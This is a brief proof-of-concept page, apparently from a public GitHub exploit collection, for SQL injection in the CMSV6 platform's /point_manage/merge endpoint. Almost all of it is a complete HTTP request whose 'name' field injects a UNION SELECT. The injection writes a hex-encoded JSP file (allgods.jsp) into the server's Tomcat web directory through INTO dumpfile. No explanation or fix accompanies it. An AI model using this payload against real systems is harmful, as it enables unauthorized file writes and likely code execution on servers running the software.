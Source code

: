 # CMSV6_pointManage_sqli

from: https://github.com/wy876/POC/blob/main/%E9%80%9A%E5%A4%A9%E6%98%9FCMSV6%E6%8E%A5%E5%8F%A3pointManage%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5.md

```
POST /point_manage/merge HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2882.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Host: ip

id=1&name=1' UNION SELECT%0aNULL, 0x3c25206f75742e7072696e7428227a7a3031306622293b206e6577206a6176612e696f2e46696c65286170706c69636174696f6e2e6765745265616c5061746828726571756573742e676574536572766c657450617468282929292e64656c65746528293b20253e,NULL,NULL,NULL,NULL,NULL,NULL
INTO dumpfile '../../tomcat/webapps/gpsweb/allgods.jsp' FROM user_session a
WHERE '1 '='1 &type=3&map_id=4&install_place=5&check_item=6&create_time=7&update_time=8
```
